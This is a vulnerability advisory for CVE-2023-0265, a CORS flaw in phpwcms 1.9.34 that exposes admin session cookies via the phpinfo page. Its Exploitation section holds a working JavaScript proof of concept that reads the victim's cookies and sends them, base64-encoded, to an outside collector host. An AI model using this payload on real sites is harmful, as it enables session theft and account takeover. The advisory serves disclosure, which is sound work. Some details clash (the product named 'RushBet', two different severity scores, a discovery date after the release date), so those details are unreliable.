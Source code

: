 ```yaml
---
slug: advisories/supply/
title: phpwcms 1.9.34 - CORS leads to Account Takeover
authors: Carlos Bello
writer: cbello
codename: supply
product: phpwcms 1.9.34
date: 2023-01-10 09:00 COT
cveid: CVE-2023-0265
severity: 6.0
description: phpwcms 1.9.34    -    CORS leads to Account Takeover
keywords: Fluid Attacks, Security, Vulnerabilities, Phpwcms, CORS
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | phpwcms 1.9.34 - CORS leads to Account Takeover                    |
| **Code name**         | [Supply](https://en.wikipedia.org/wiki/Air_Supply)                 |
| **Product**           | RushBet                                                            |
| **Affected versions** | Version 1.9.34                                                     |
| **State**             | Public                                                             |
| **Release date**      | 2023-01-10                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Insecure or unset HTTP headers - CORS                                                                                       |
| **Rule**              | [134. Insecure or unset HTTP headers - CORS](https://docs.fluidattacks.com/criteria/vulnerabilities/134)                    |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:N/A:N                                                                                |
| **CVSSv3 Base Score** | 6.5                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2023-0265](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0265)                                               |

## Description

Phpwcms version 1.9.34 allows a remote attacker to steal customer
accounts by using a malicious the administrator's session cookie
through the phpinfo page. This is possible because the application
is vulnerable to CORS.

## Vulnerability

The application allows an administrator to view the information
available on the phpinfo page.

![phpinfo-admin](https://user-images.githubusercontent.com/51862990/212195529-e49a0132-e0b8-4ee7-82ff-868f401d4230.png)

![phpinfo-page](https://user-images.githubusercontent.com/51862990/212196963-79f14938-45eb-4f18-838c-8d63ee67f365.png)

The problem arises when after several attempts it is discovered
that the page is vulnerable to CORS.

![cors-attemp-1](https://user-images.githubusercontent.com/51862990/212196063-ea8c284e-49a5-4176-8f36-59835c3e1d77.png)

![cors-attemp-2](https://user-images.githubusercontent.com/51862990/212196579-8c694ca9-1921-429d-9937-f302c63bec3a.png)

![cors-attemp-3](https://user-images.githubusercontent.com/51862990/212196624-b219ec90-5982-4ed2-9307-bcb4e86c8528.png)

## Exploitation

To exploit this vulnerability, we must send malicious JS code to
the administrator to send their leaked session cookies through
the phpinfo page to our malicious server.

### Exploit.html

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('GET','https://retr02332.com/phpwcms/include/inc_act/act_phpinfo.php',true);
    req.setRequestHeader("X-Forwarded-Host", "cf0a73a92d3h9e6btrkgrrw55meurtb7b.oast.online");
    req.withCredentials = true;
    req.send();

    function reqListener() {
        let leak = this.responseText;
        const startString = '<tr><td class="e">HTTP_COOKIE </td><td class="v">';
        const endString = '</td></tr>';

        const startIndex = leak.indexOf(startString) + startString.length;
        const endIndex = leak.indexOf(endString, startIndex);

        const cookies = leak.substring(startIndex, endIndex);
        const encodedCookies = btoa(cookies);

        location='https://cf0a73a92d3h9e6btrkgrrw55meurtb7b.oast.online/phpinfo?leak='+encodedCookies;
    };
</script>
```

## Evidence of exploitation

![explotation-cors](https://user-images.githubusercontent.com/51862990/212198407-9d234504-1d21-4bb4-8805-84b968f3b64c.gif)

![steal-session-cookie](https://user-images.githubusercontent.com/51862990/212198509-08150e9d-e234-41f6-8976-f311458410f5.png)

## Our security policy

We have reserved the CVE-2023-0265 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: phpwcms 1.9.34

* Operating System: GNU/Linux

## Mitigation

An updated version of phpwcms is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/slackero/phpwcms>

## Timeline

<time-lapse
  discovered="2023-12-01"
  contacted="2023-12-01"
  replied="2023-12-01"
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>
